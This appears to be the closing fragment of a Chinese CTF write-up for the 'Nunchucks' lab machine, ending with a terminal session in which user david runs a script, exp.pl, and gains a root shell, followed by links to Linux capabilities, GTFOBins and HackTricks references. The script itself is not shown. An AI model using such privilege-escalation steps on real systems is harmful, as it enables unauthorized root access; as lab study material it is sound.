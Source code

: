 ```bash
david@nunchucks:/tmp$ chmod +x exp.pl
david@nunchucks:/tmp$ ./exp.pl
root@nunchucks:/tmp# id
uid=0(root) gid=1000(david) groups=1000(david)
```

---

# 参考资料

> [Linux Capabilities 入门教程：基础实战篇](https://fuckcloudnative.io/posts/linux-capabilities-in-practice-1/)
> [GTFOBins](https://gtfobins.github.io/gtfobins)
> [HackTricks](https://book.hacktricks.xyz/)

